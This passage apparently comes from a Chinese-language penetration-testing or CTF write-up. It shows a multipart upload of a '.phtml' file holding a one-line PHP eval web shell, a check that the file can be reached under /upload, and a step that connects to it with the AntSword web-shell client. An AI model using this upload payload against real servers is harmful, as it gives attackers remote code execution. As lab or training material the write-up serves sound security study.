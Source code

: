         ```python
        Content-Disposition: form-data; name="fileToUpload"; filename="2.phtml"
        Content-Type: application/octet-stream
        
        <?php @eval($_POST[x]); ?>
        ```
        
    - 上传的文件保存在了`/upload`路径，测试能否使用
        
        ![image.png](image%2072.png)
        
        可以正常包含
        
7. 使用蚁🗡连接
    
    ![image.png](image%2073.png)
    